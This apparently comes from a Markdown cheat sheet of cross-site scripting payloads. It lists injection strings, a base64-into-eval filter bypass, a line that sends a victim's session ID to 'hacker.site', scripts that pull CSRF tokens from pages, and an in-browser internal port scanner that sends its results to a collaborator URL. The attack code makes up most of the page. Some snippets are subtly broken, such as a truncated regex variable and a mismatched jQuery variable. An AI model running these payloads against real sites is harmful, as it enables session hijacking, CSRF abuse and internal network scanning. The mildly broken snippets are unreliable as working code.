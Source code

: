 # XSS
## Payloads
```html
<embed src="http://hacker.site/evil.swf">
<embed src="javascript:alert(1)">
<iframe src='jAvAsCripT:alert`1`'></iframe>


```

## Filter Bypass
### Base64 into Eval
```html
<img src=x o<scriptnerror=javajavascript:script:eval(atob('%s'))>
```

## Extract Session Data
```js
new Image().src ="http://hacker.site/SID?"+escape(sessionStorage.getItem('sessionID'));
```

> Despite `document.cookie`, the attacker needs to be more precise because the name of the key used to store the session ID may change

## Scripts
### Extract CSRF Token from XSS in same page
Using XHR
```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == 4) {
var htmlSource = xhr.responseText;
//some operations…
}
}
xhr.open('GET','http://victim.site/csrf-form-page.html', true);
xhr.send();
```
Using JQuery
```js
Req= jQuery.get('http://victim.site/csrf-form-page.html', 
function() {
var htmlSource = jReq.responseText;
//some operations…
});
```
Using DOM
```js
var token = document.getElementsByName('csrf_token')[0].value
```

### Extract CSRF Token from XSS in different page
Using regex
```js
attern = /csrf_token'\svalue='(.*)'/;
token = htmlSource.match(pattern)[1]
```
Using DOM Parser
```js
parser = new DOMParser().parseFromString(htmlSource,"text/html");
token = parser.getElementsByName('csrf_token')[0];
```

### Internal Network Port Scanner 
```js
<script>
var q = [], collaboratorURL = 'http://ac3b1fe21fddcea0802d5e8a01780096.web-security-academy.net/exploit';
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(wait){
    fetchUrl(url,wait);
    }
  }('http://192.168.0.'+i+':8080'));
}
for(i=1;i<=20;i++){
  if(q.length)q.shift()(i*100);
}
function fetchUrl(url, wait){
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
    location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
  }
  ))
  .catch(e => {
  if(q.length) {
    q.shift()(wait);
  }
  });
  setTimeout(x=>{
  controller.abort();
  if(q.length) {
    q.shift()(wait);
  }
  }, wait);
}
</script> 
```


## Write-ups
- [Intigriti — XSS Challenge 0621. XSS via WebAssembly | by FHantke | InfoSec Write-ups (infosecwriteups.com)](https://infosecwriteups.com/intigriti-xss-challenge-0621-cf76c28840c1)
